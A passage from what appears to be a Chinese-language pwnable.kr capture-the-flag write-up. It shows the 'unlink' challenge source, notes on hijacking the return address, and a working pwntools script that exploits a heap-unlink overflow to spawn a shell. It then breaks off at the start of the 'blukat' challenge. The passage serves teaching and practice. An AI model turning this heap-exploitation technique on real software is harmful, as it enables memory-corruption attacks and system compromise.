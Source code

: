          // double linked list: A <-> B <-> C
          A->fd = B;
          B->bk = A;
          B->fd = C;
          C->bk = B;

          printf("here is stack address leak: %p\n", &A);
          printf("here is heap address leak: %p\n", A);
          printf("now that you have leaks, get shell!\n");
          // heap overflow!
          gets(A->buf);

          // exploit this unlink!
          unlink(B);
          return 0;
  }

  ```
* unlink:此题不能使用常规的FD=target addr - 12 ,BK=except value，会导致非法写入。
* 查看main函数结尾，发现以下代码，可以改写ebp-4，进而控制ret时的rip。
  ```assembly
  mov     ecx, [ebp-4] //ecx=*(ebp-4)
  leave
  lea     esp, [ecx-4] //esp=ecx-4=*(ebp-4)-4
  retn //pop rip , rip=*(esp)
  ```
* 参考：[看雪：Glibc Heap 利用之初识 Unlink](https://zhuanlan.zhihu.com/p/51211954)
* 题解
  ```python
  from pwn import *
  r = ssh('unlink','pwnable.kr',2222,'guest')
  p = r.process("./unlink")
  shell_addr=0x080484eb
  p.recvuntil("here is stack address leak: ")
  leak_stack = int(p.recv(10),16)  #接收的是字符串形式的16进制，如0x08041234正好是10个字节。
  p.recvuntil("here is heap address leak: ")
  leak_heap= int(p.recv(10),16)
  p.recv()
  ebp_addr=leak_stack+0x14
  ecx_addr=ebp_addr-0x4
  padding=b'a'*8
  payload=p32(shell_addr)+b'a'*4  #A->buf
  payload+=padding  # chunk header
  payload+=p32(leak_heap+12)  # B->fd  unlink时，*(leak_heap+12+4)=BK=ebp_addr-4，此时改写的是堆上的数据，不会导致非法写入
  payload+=p32(ebp_addr-4)  # B->bk  unlink时，*(ebp_addr-4)=FD=leak_heap+12
  p.sendline(payload)
  p.interactive()
  ```

### 19 blukat
* ```c
  #include <stdio.h>
  #include <string.h>
  #include <stdlib.h>
  #include <fcntl.h>
  char flag[100];
  char password[100];
  char* key = "3\rG[S/%\x1c\x1d#0?\rIS\x0f\x1c\x1d\x18;,4\x1b\x00\x1bp;5\x0b\x1b\x08\x45+";
  void calc_flag(char* s){
      int i;
      for(i=0; i<strlen(s); i++){
              flag[i] = s[i] ^ key[i];
      }
      printf("%s\n", flag);
  }
  int main(){